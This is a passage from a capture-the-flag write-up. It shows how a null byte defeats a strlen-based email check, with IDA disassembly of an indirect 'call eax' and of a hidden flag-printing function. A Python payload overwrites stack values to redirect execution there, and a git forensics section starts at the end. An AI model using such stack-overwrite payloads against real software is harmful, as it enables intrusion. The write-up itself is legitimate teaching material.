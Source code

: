 ```c
```
To bypass the email address validation is simple, we just insert null byte in the beginning of the input, the `strlen()` will consider the string's length is 0 and stop the checking.  

I try to overwrite the return address first, which cause the program crash. So I switch to the IDA view and check the assembly, here's what I found:
```
.text:08048A58                 sub     dword ptr [esp+78h], 1
.text:08048A5D                 mov     eax, [esp+78h]
.text:08048A61                 mov     eax, [esp+eax*4+30h]
.text:08048A65                 call    eax
```

So apparently before the main function end, it does something really interesting. The program took a value that store on the stack, do some calculation, and store it in the eax before calling it. If we can make the value that store at `[esp+78h]` 0, we can call whatever we want by controling the value store at `[esp+30h]`. But who should we call? After checking the text view in IDA Pro, I found that there's one function that IDA Pro didn't decompile it into pseudo code.  

```
.text:080486CC                 push    ebp
.text:080486CD                 mov     ebp, esp
.text:080486CF                 sub     esp, 58h
.text:080486D2                 mov     dword ptr [esp+0Ch], offset a_Flag ; "./flag"
.text:080486DA                 mov     dword ptr [esp+8], offset aCatS ; "cat %s"
.text:080486E2                 mov     dword ptr [esp+4], 32h
.text:080486EA                 lea     eax, [ebp-3Ah]
.text:080486ED                 mov     [esp], eax
.text:080486F0                 call    _snprintf
.text:080486F5                 lea     eax, [ebp-3Ah]
.text:080486F8                 mov     [esp], eax
.text:080486FB                 call    _system
.text:08048700                 leave
.text:08048701                 retn
```

So just overwrite the stack, make `eax` be calculated to `0x080486CC`, then we can get the flag by executing the `call eax` instruction. Here's the payload:

```python
payload = "123\n" # name
payload += "\x00\x00\x00\x00" # for bypassing strlen
payload += "A"*28 # padding
payload += "\xcc\x86\x04\x08" # esp+0x30, print flag function
payload += "A"*68 # padding
payload += "\x01\x00\x00\x00" # esp+0x78
```

# Misc
## TIM
We got a github page, so it's seems like a git/forensic challenge. After cloning the repository and check the git log, we found some intereting stuff. 
```
commit d444f3227636477902c4badc8e35a27cadab456c
Author: Abhay Rana <capt.n3m0@gmail.com>
Date:   Tue Mar 31 17:59:09 2015 +0530

    Adds flag

commit 009d01e1b04bf2bf2d9bebd666e8d167fae1dc1a
Author: Abhay Rana <me@captnemo.in>
Date:   Tue Mar 31 17:59:08 2015 +0530

    47
```